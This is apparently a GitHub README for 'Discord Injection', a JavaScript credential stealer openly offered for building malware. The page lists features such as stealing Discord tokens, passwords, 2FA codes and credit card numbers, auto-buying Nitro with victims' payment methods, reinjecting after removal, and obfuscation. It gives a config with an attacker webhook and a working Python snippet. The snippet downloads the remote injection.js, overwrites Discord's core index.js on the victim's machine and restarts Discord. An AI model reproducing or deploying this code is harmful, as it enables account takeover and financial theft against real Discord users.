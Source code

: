 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

##### ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ [🌌・Discord](https://cheataway.com) ⋮  [💉・Setting up the injection](https://github.com/Rdimo/Discord-Injection#configure-discord-injection) ⋮ [💻・License](https://github.com/Rdimo/Discord-Injection#license) ⋮ [📜・ChangeLog](https://github.com/Rdimo/Discord-Injection#changelog)

<h2 align="center">
  Discord-Injection was made by

  Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled.  \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

--- 

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!
```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```
Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously

    ... //rest of the config you should NOT touch
};
```
> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example
Example of how you can implement this injection into your own malware
```py
import os
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for root, dirs, files in os.walk(os.getenv('localappdata')):
        for name in dirs:
            if "discord_desktop_core-" in name:
                try:
                    directory_list = os.path.join(root, name+"\\discord_desktop_core\\index.js")
                except FileNotFoundError:
                    pass
                try:
                    os.mkdir(os.path.join(root, name+"\\discord_desktop_core\\initiation"))
                except FileExistsError:
                    pass
                f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                with open(directory_list, 'w', encoding="utf-8") as index_file:
                    index_file.write(f)
    for root, dirs, files in os.walk(os.getenv('appdata')+"\\Microsoft\\Windows\\Start Menu\\Programs\\Discord Inc"):
        for name in files:
            discord_file = os.path.join(root, name)
            os.startfile(discord_file)

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?
No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo
- Grab ip, name etc...
- fix bugs
- more settings

## :seedling:・Inspiration
Discord-Injection is inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License 

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility 

・Selling this ==**Free**== injection is forbidden

・If you make a copy of this/or fork it, it ==**must**== be open-source and have credits linking to this repo

## 💭・ChangeLog
```diff
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Accidently removed status code checker
```
